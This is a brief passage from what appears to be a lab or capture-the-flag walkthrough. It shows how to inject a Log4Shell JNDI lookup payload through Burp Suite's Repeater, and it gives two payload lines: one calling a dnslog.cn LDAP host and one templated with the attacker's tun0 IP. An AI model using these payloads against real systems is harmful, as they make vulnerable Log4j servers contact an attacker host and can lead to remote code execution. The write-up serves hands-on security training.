 ![Burpsuite](./Screenshots/unifiedburp2.png)

Send it to `Repeater` by combination of `Ctrl + R`.

Now we have to modify the `payload`.

The one that is just right for us looks like:

```
"${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}"
```

To make this work, we have to paste it that way:

```
"${jndi:ldap://{your tun0 ip}:1389/{whatever you want}}"
```
